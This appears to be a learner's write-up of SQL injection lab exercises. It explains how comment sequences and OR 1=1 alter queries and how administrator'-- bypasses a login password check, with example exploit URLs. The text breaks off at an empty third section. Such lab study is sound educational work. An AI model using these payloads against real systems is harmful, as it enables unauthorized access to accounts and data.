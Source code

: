 
## **SQL Injection 1**
### Analysis
#### Original Query:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1`
```

-  This query selects all products from the `products` table where the `category` is 'Gifts' and the product is `released`.

---
#### Injected Query 1:

```sql
SELECT * FROM products WHERE category = 'Gifts' --' AND released = 1
```

- The `--` sequence is used to comment out the rest of the SQL query.
- The `AND released = 1` part is ignored, potentially displaying all products in the 'Gifts' category, regardless of their release status.

---
#### Injected Query 2:

```sql
SELECT * FROM products WHERE category = 'Gifts' OR 1=1 --' AND released = 1
```

- The condition `OR 1=1` is always true.
- Since `1=1` is always true, the query returns all products, not just those in the 'Gifts' category or those that are released.

---
### Example of Exploit
```
https://0a9e009b03fe6a7d80663a5b004a0029.web-security-academy.net/filter?category=Gift%27+OR+1=1--
```
- Explanation: Injects `Gift' OR 1=1--` into the `category` parameter, making the query always true and returning all products.

---

## **SQL Injection 2**

### Analysis
#### Original Query:
```sql
SELECT firstname FROM users WHERE username='admin' AND password='admin'
```
- **Description:** Retrieves the `firstname` of the user with `username='admin'` and `password='admin'`.

---
#### Injected Query 1:
```sql
SELECT firstname FROM users WHERE username='' AND password='admin'
```
- **Explanation:** Checks for a user with an empty username. Likely returns no results.

---
#### Injected Query 2:
```sql
SELECT firstname FROM users WHERE username='admin'--' AND password='admin'
```
- **Explanation:** The `--` sequence comments out the rest of the query, effectively checking only for `username='admin'`. Bypasses the password check.

---
#### Injected Query 3:
```sql
SELECT firstname FROM users WHERE username='administrator'--' AND password='admin'
```
- **Explanation:** Similar to Injected Query 2 but uses 'administrator' as the username. If 'administrator' is valid, it bypasses the password check and returns the `firstname`

---
### Example of Exploit

- **Vulnerable URL:**
```
https://example.com/login?username=administrator'--&password=admin
```
- **Explanation:** The payload `administrator'--` in the username parameter bypasses the password check, returning the `firstname` of 'administrator'.

---

## **SQL Injection 3**
### Analysis
